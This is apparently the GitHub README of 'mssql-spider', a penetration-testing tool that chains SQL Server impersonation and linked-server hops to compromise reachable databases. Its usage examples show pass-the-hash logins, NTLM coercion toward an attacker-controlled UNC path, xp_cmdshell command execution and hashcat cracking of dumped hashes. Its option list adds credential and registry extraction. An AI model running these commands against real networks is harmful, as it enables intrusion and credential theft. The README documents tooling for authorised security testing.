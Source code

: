 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

> **Warning:** Although this project was successfully tested in the lab and solves the OSEP Challenge 2 automatically, it is still kinda work in progress.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd db01.corp.local
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -d corp.local -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 --coerce-dirtree '\\attacker.corp.local\test' ./mssql-servers.txt
~~~

Authenticate via Kerberos and execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
mssql-spider -k -n -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Detailed help:

~~~
positional arguments:
  HOST[:PORT]|FILE

options:
  -h, --help                                          show this help message and exit
  --depth UINT                                        default: 10
  --threads UINT                                      default: based on CPU cores
  --timeout SECONDS                                   default: 5
  --debug                                             write verbose log to stderr

authentication:
  -d DOMAIN, --domain DOMAIN                          implies -w
  -u USERNAME, --user USERNAME
  -p PASSWORD, --password PASSWORD
  -n, --no-pass                                       disable password prompt, default: false
  -H [LMHASH]:NTHASH, --hashes [LMHASH]:NTHASH        authenticate via pass the hash
  -a HEXKEY, --aes-key HEXKEY                         authenticate with Kerberos key in hex, implies -k
  -w, --windows-auth                                  use windows instead of local authentication, default: false
  -k, --kerberos                                      authenticate via Kerberos, implies -w, default: false
  -K ADDRESS, --dc-ip ADDRESS                         FQDN or IP address of a domain controller, default: value of -d
  -D NAME, --database NAME

enumeration:
  -q SQL, --query SQL                                 execute SQL statement, unprivileged
  --sysinfo                                           retrieve database and OS version, unprivileged

coercion:
  -c UNCPATH, --coerce-dirtree UNCPATH                coerce NTLM trough xp_dirtree(), unprivileged
  --coerce-fileexist UNCPATH                          coerce NTLM trough xp_fileexist(), unprivileged
  --coerce-openrowset UNCPATH                         coerce NTLM trough openrowset(), privileged

filesystem:
  --fs-read REMOTE                                    read file trough openrowset(), privileged
  --fs-write LOCAL REMOTE                             write file trough OLE automation, privileged

execution:
  -x COMMAND, --exec-cmdshell COMMAND                 execute command trough xp_cmdshell(), privileged
  --exec-ole COMMAND                                  execute blind command trough OLE automation, privileged
  --exec-job COMMAND cmd|powershell|jscript|vbscript  execute blind command trough agent job, privileged, experimental!

registry:
  --reg-read HIVE KEY NAME                            read registry value, privileged, experimental!
  --reg-write HIVE KEY NAME TYPE VALUE                write registry value, privileged, experimental!
  --reg-delete HIVE KEY NAME                          delete registry value, privileged, experimental!

credentials:
  --dump-hashes                                       extract hashes of database logins, privileged
  --dump-jobs                                         extract source code of agent jobs, privileged
  --dump-autologon                                    extract autologon credentials from registry, privileged
~~~

Dumped database password hashes can be cracked with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~
